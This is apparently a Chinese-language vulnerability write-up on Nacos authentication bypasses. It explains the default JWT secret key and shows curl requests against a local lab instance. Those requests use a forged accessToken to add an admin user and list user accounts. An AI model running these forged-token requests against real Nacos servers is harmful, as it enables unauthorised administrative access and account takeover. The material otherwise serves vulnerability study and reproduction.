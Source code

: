 | 漏洞编号                                                                                                                                                                                                                                          | 影响版本                | 简要描述                                                 | 参考链接                                                                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------- | -------------------------------------------------------- | -------------------------------------------------------------------------------------------- |
| AVD-2023-1655789<br />[NVDB-CNVDB-2023674205](https://github.com/alibaba/nacos/issues/10060)<br />[QVD-2023-6271](https://nox.qianxin.com/vulnerability/detail/QVD-2023-6271)<br />[CVE-2021-43116](https://github.com/alibaba/nacos/issues/7182) | 0.1.0 <= Nacos <= 2.2.0 | JWT 默认密钥导致的 Nacos 身份认证绕过漏洞                | https://avd.aliyun.com/detail?id=AVD-2023-1655789                                            |
| CVE-2021-29441                                                                                                                                                                                                                                    | Nacos < 1.4.1           | Nacos 存在一个由于不当处理 User-Agent 导致的鉴权绕过漏洞 | [https://github.com/alibaba/nacos/issues/4593](https://github.com/alibaba/nacos/issues/4593) |

### AVD-2023-1655789

由于 Nacos 默认未对 token.secret.key（JWT 密钥）进行修改，在 JWT 鉴权开启的情况下，远程攻击者可以绕过密钥认证进入后台，造成系统受控等后果。

Nacos 默认未开启鉴权，JWT 鉴权在 `nacos/conf/application.properties` 中配置 `nacos.core.auth.enabled=true` 后开启。

```console
sh-4.2# pwd
/home/nacos/conf
sh-4.2# cat application.properties
...

### The default token:
nacos.core.auth.default.token.secret.key=${NACOS_AUTH_TOKEN:SecretKey012345678901234567890123456789012345678901234567890123456789}
...
```

在登录成功时，nacos 后台会生成一个 accessToken，之后的任何请求都会基于这个 accessToken 来进行权限鉴定：

```
┌──(root㉿kali)-[~]
└─# curl --data-binary "username=nacos&password=nacos" "http://127.0.0.1:8848/nacos/v1/auth/users/login"
{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY4NzA5NDQ3M30.XjlmBggwK8rSEKCFSfXPZ2DhXGDIFdre1oYKGDbQqr0","tokenTtl":18000,"globalAdmin":true,"username":"nacos"}
```

可以尝试，将请求到的 token，直接存放至浏览器的 Local Storage 中，是能够直接进入到 nacos 后台的：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/6387a8a986490bc8.png)

对于 accessToken 所使用的 [JWT](https://jwt.io/) 加密，在拥有密钥后，就可以轻松的伪造出 accessToken 了。

如下图所示，在我们输入（默认）密钥后，只需要更改相应的时间戳（往当前时间后面改就行）即可：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/0db2becdeae47d4c.png)

接下来，就可以利用伪造的 accessToken 来进行操作了。
添加用户：

```
┌──(root㉿kali)-[~]
└─# curl -v --data-binary "username=test&password=123456" "http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6Mzk5OTk5OTk5OX0.CnmtJLJRUclbRRMIqFKcRB26o3Sdgu6mxuPnwTNFKZU"
```

也可以在请求头中添加 `Authorization: Bearer <accessToken>` 进行认证：（查看用户账号密码）

```
┌──(root㉿kali)-[~]
└─# curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6Mzk5OTk5OTk5OX0.CnmtJLJRUclbRRMIqFKcRB26o3Sdgu6mxuPnwTNFKZU" "http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9" | python3 -m json.tool
```
